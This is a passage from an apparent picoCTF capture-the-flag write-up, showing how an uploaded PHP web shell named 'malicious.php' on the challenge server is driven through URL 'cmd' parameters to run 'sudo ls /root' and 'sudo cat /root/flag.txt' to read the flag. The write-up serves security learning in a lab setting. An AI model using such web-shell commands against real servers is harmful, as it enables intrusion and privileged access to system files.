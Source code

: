 

This will tell us that we can run any command with any account....


Let's try as root:

To get root we need to redirect to thhis url

```
http://standard-pizzas.picoctf.net:54419/uploads/malicious.php?cmd=sudo ls /root
```

This will list all files in root..


**Here we found flag.txt in root folder...**
 

#### 4. Find the Flag

Once we confirm that our PHP shell is working, we can try reading the flag file.

Try the following in your browser:

```
http://standard-pizzas.picoctf.net:54419/uploads/malicious.php?cmd=sudo cat /root/flag.txt
```

If the file exists and permissions are open, this will output the flag.

![Flag Found](images/2nd9.png)

#### 5. Flag Retrieved
